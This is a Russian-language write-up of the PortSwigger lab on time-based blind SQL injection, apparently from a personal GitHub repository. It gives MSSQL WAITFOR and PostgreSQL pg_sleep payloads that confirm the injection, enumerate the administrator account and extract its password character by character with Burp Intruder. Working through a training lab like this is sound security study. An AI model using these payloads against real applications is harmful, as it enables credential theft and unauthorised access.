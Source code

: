 # Blind SQL injection with time delays and information retrieval

## Theory

<h3>Использование слепых SQL-инъекций путем использования временных задержек</h3>

В этой ситуации часто можно использовать уязвимость слепой инъекции SQL, вызывая временные задержки, в зависимости от введенного условия. Поскольку SQL-запросы обычно обрабатываются приложением синхронно, задержка выполнения SQL-запроса также приведет к задержке ответа HTTP. Это позволяет нам сделать вывод об истинности внедренного условия на основе времени, затраченного до получения ответа HTTP.

Методы запуска временной задержки сильно зависят от типа используемой базы данных. В Microsoft SQL Server следующий запрос может использоваться для проверки условия и запуска задержки в зависимости от того, истинно ли выражение:
```
'; IF (1=2) WAITFOR DELAY '0:0:10'--
'; IF (1=1) WAITFOR DELAY '0:0:10'--
```

Первый из этих входов не вызовет задержку, потому что условие **1=2** ложно. Второй вход вызовет задержку в 10 секунд, потому что условие **1=1** истинно.

Используя эту технику, мы можем получать данные, проверяя по одному символу за раз:
```
'; IF (SELECT COUNT(Username) FROM Users WHERE Username = 'Administrator' AND SUBSTRING(Password, 1, 1) > 'm') = 1 WAITFOR DELAY '0:0:10'--
```

## Writeup

Главная страница:

![](https://github.com/fobblified/Writeups/blob/main/Portswigger/SQL_injection/Blind_SQL_injection_with_time_delays_and_information_retrieval/assets/1.png)

Выбираем пункт Pets. Отправим запрос, чтобы удостовериться, что страница уязвима к SQL-иньекции, и что страница возвращает ответ через некоторый промежуток времени.
```
e60'||(select+pg_sleep(3))--;
```

![](https://github.com/fobblified/Writeups/blob/main/Portswigger/SQL_injection/Blind_SQL_injection_with_time_delays_and_information_retrieval/assets/2.png)

Используем поведение приложения для проверки условий. Отправим следующий запрос. Оператор CASE проверяет условие и оценивает одно выражение, если условие истинно, и другое выражение, если условие ложно. Первое выражение вызовет задержку на 3 секунды. Второе отправит запрос без задержки.

```
e60'||(select+case+when+(1=1)+then+pg_sleep(3)+else+pg_sleep(0)+end)--;
```

![](https://github.com/fobblified/Writeups/blob/main/Portswigger/SQL_injection/Blind_SQL_injection_with_time_delays_and_information_retrieval/assets/3.png)

Проверим, существует ли пользователь с именем Administrator в таблице Users.

```
e60'||(select+case+when+(username='administrator')+then+pg_sleep(3)+else+pg_sleep(0)+end+from+users)--;
```

![](https://github.com/fobblified/Writeups/blob/main/Portswigger/SQL_injection/Blind_SQL_injection_with_time_delays_and_information_retrieval/assets/4.png)

Следующим шагом является определение количества символов в пароле пользователя Administrator. Для этого используем следующий запрос. Изменяем цифру length(password)>19 в запросе, чтобы узнать количество символов в пароле.

```
e60'||(select+case+when+(username='administrator'+and+length(password)>19)+then+pg_sleep(3)+else+pg_sleep(0)+end+from+users)||';
```

![](https://github.com/fobblified/Writeups/blob/main/Portswigger/SQL_injection/Blind_SQL_injection_with_time_delays_and_information_retrieval/assets/5.png)

После определения длины пароля следующим шагом будет проверка символа в каждой позиции, чтобы определить его значение. Отправляем запрос в Burp Intruder и заключаем нужные нам значения для перебора в специальные символы. Во вкладке **Resource Pool** изменим количество отправки запросов на 1, чтобы точно выдеть символы пароля. Запускаем перебор. Во вкладке **Columns** включаем отображение **Response received**. Получаем пароль.

```
e60'||(select+case+when+(username='administrator'+and+substring(password,1,1)='a')+then+pg_sleep(5)+else+pg_sleep(0)+end+from+users)||';
```

![](https://github.com/fobblified/Writeups/blob/main/Portswigger/SQL_injection/Blind_SQL_injection_with_time_delays_and_information_retrieval/assets/6.png)

![](https://github.com/fobblified/Writeups/blob/main/Portswigger/SQL_injection/Blind_SQL_injection_with_time_delays_and_information_retrieval/assets/7.png)

Логинимся под администратора и получаем ответ от приложения.

![](https://github.com/fobblified/Writeups/blob/main/Portswigger/SQL_injection/Blind_SQL_injection_with_time_delays_and_information_retrieval/assets/8.png)
